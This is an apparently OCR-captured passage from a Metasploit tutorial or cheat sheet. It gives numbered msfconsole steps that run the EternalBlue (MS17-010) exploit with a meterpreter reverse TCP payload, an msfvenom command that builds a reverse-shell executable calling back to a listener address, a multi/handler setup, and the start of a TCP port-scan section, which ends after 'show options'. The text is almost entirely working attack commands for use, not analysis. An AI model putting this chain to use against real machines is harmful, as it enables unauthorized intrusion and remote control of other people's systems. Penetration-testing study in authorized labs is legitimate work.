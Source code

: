 1. **Search an exploit**
    

```text
msf6 > search ms17_010
```

2. **Use and configure exploit**
    

```text
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > show options
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 10.10.10.5
msf6 exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
msf6 exploit(ms17_010_eternalblue) > set LHOST 10.0.0.5
msf6 exploit(ms17_010_eternalblue) > exploit
```

3. **Generate a payload with msfvenom**
    

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe -o /tmp/rev.exe
```

4. **Start handler**
    

```text
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.0.0.5
msf6 exploit(multi/handler) > exploit -j
```

---



## 1) Find a port scanner in `msfconsole`

```text
msf6 > search portscan
```

Typical result you might pick:

```
auxiliary/scanner/portscan/tcp
```

Load it:

```text
msf6 > use auxiliary/scanner/portscan/tcp
```

Show options:

```text
msf6 auxiliary(scanner/portscan/tcp) > show options
```

---